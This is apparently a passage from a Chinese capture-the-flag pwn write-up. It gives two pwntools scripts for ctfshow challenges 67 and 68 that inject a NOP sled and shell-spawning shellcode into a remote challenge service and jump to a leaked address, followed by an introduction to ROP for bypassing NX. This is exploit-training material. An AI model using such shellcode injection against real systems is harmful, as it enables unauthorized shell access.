 ```python
#32位
#ctfshow 67
from pwn import *
context(arch='i386',os='linux',log_level = 'debug')
#io = process('./pwn')
io = remote('pwn.challenge.ctf.show',28155)
shellcode = asm(shellcraft.sh())
payload = '\x90'*1336 + shellcode
io.recvuntil("The current location: 0x")
addr = u64(unhex(io.recvline(keepends=False).zfill(16)),endian='big')
print ("Addr: " + hex(addr))
io.recvuntil("> ")
io.sendline(payload)
io.recvuntil("> ")
sh = addr + 668 + 0x2d;
print("Sending: " + hex(sh))
io.sendline(hex(sh))
io.interactive()


#64位
#ctfshow 68
from pwn import *
context(arch='amd64',os='linux',log_level = 'debug')
#io = process('./pwn')
io = remote('pwn.challenge.ctf.show',28121)
shellcode = asm(shellcraft.sh())
payload = b'\x90'*1336 + shellcode
io.recvuntil("The current location: 0x")
addr = u64(unhex(io.recvline(keepends=False).zfill(16)),endian='big')
print ("Addr: " + hex(addr))
io.recvuntil("> ")
io.sendline(payload)

io.recvuntil("> ")
sh = addr + 668 + 0x35;
print("Sending: " + hex(sh))

io.sendline(hex(sh))
io.interactive()


```



### ROP

随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是 ROP(Return Oriented Programming)，其主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。**所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。
